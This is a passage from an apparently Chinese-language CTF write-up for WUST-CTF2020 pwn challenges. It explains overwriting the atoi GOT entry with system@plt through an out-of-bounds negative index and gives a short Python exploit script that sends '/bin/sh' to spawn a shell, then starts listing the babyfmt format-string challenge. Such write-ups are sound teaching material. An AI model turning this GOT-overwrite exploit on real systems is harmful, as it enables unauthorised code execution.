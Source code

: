 > `buf`位于bss段

### 解题思路

依然可以用修改got表的思路，比如改程序中常用的`atoi`函数：

```nasm
[0x602060] setvbuf@GLIBC_2.2.5 -> 0x7ffff7e443d0 (setvbuf) ◂— push   r13
[0x602068] atoi@GLIBC_2.2.5 -> 0x7ffff7e052c0 (atoi) ◂— sub    rsp, 8
[0x602070] exit@GLIBC_2.2.5 -> 0x400786 (exit@plt+6) ◂— push   0xb /* 'h\x0b' */
```

`read(0, buf[inedx], 8)`是向`buf[index]`中的**指针指向的地址**处写8个字节，因此要构造：

`buf[inedx]=addr` & `addr->0x602068`

因此需要找一个指针，指向`atoi`的got表，显然那就是**reloc表**了

```nasm
pwndbg> search -8 0x602068
easyfast        0x400668 push   0x6020 /* 'h `' */
```

找到以后计算偏移量即可：`(0x400668-0x6020c0)/8=-262987`

> 直接用程序中的后门会因为执行system时栈基址偏移量不对导致getshell失败

所以覆盖`atoi`的got表为`system@plt`，然后给`atoi`传一个`"/bin/sh\0"`的参数即可getshell

### exp

```python
shell = elf.sym['system']
sla('choice>\n','3')
sea('index>\n','-262987')
se(p64(shell))
sl('/bin/sh\0')
```



## babyfmt

- 题目描述：

  > Author: ru7n

- 题目附件：[babyfmt](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/WUST-CTF2020/pwn/babyfmt/babyfmt)

- 考察点：格式化字符串

- 难度：困难

- 初始分值：1000

- 最终分值：1000

- 完成人数：2

本次比赛中最好玩儿的一道pwn题~

